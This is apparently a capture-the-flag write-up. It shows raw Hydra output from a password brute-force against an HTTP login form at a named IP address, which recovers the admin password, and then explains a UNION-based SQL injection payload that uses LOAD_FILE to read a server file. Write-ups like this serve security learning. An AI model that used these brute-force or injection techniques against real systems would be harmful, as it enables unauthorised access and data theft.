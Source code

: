 ```
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelove1" - 495 of 1284 [child 5] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelova4lyf" - 496 of 1284 [child 9] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelol" - 497 of 1284 [child 13] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolateloki4854581" - 498 of 1284 [child 6] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelog" - 499 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelipz" - 500 of 1284 [child 11] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelimao" - 501 of 1284 [child 15] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekissess" - 509 of 1284 [child 2] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekiss8-21" - 510 of 1284 [child 14] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolateking" - 511 of 1284 [child 5] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekik" - 512 of 1284 [child 9] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekatie" - 513 of 1284 [child 6] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekathy" - 514 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekate" - 515 of 1284 [child 13] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatejj" - 516 of 1284 [child 0] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatejeremy" - 517 of 1284 [child 11] (0/0)
[8889][http-post-form] host: 129.80.41.223   login: admin   password: chocolatelimao
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-23 04:01:28
```
**Password found on [8889] password:==```chocolatelimao```==**
-- -
SQL LOGIC CHALLENGE.
--
![](https://i.imgur.com/HcXV2uk.png)

This question aimed to challenge users understanding on basic concept of the UNION based SQL injection. As the question stated itself there was an injection in the age field and database had 5 columns.
I used some of internet resources and  came to realise that, inorder to read files on SQL, then LOAD_FILE() function is used. For more information you can visit [VK9Security](https://vk9-sec.com/advanced-sql-injection-union-based/) or you can download this [pdf](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjE86eV86z3AhWbQkEAHYqNC4sQFnoECA8QAQ&url=https%3A%2F%2Fwww.blackhat.com%2Fpresentations%2Fbh-europe-09%2FGuimaraes%2FBlackhat-europe-09-Damele-SQLInjection-slides.pdf&usg=AOvVaw0ke74DnHmvESOU8jgz3ygC).
On our question the important thing was to know where injection is, and it is in 3rd column named as ```age```.
Then required format was ```UDOM{'UNIONSELECT1,2,LOADFILE("/tmp/security.txt"),4,5;---}```

:::info
Note: Before UNION there is **'** then inorder to avoid error then use **""** where you want to read.
:::
-- -

